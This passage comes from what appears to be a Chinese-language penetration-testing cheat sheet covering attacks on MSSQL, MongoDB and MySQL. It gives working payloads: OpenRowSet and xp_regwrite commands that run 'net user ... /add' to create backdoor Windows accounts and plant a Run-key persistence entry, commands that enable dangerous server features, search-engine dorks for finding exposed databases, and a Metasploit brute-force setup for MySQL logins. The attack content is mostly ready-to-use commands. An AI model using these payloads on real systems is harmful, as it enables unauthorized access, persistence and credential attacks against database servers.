     b : `Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此.
    开启 OpenRowSet:`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

6. xp_regwrite 操作注册表

    `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

    开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

---

## MongoDB

> fofa: app="MongoDB-数据库"

**未授权访问**
```
nmap -p 27017 --script mongodb-info x.x.x.x
```

---

## Mysql

MySQL 是一个关系型数据库管理系统，由瑞典 MySQL AB 公司开发，目前属于 Oracle 公司。MySQL 是一种关联数据库管理系统，MySQL 的 SQL 语言是用于访问数据库的最常用标准化语言。MySQL 软件采用了双授权政策，它分为社区版和商业版，一般中小型网站的开发选择 MySQL 作为网站数据库。

> shodan : "product:MySQL"
> fofa : app="Oracle-MySQL"

**注入**
- [Mysql数据库注入笔记](../Web安全/Web_Generic/SQLi.md#Mysql)

**MySQL 文件读**
- 相关文章
    - [通过MySQL LOAD DATA特性来达到任意文件读取](https://xz.aliyun.com/t/3973)
    - [Mysql Read Client's File](https://y4er.com/post/mysql-read-client-file/)

- 相关工具
    - [Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server)
    - [BeichenDream/MysqlT](https://github.com/BeichenDream/MysqlT) - 伪造Myslq服务端,并利用Mysql逻辑漏洞来获取客户端的任意文件反击攻击者

**MSF 爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS [IP]
set USER_FILE [用户名字典]
set PASS_FILE [密码字典]
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```
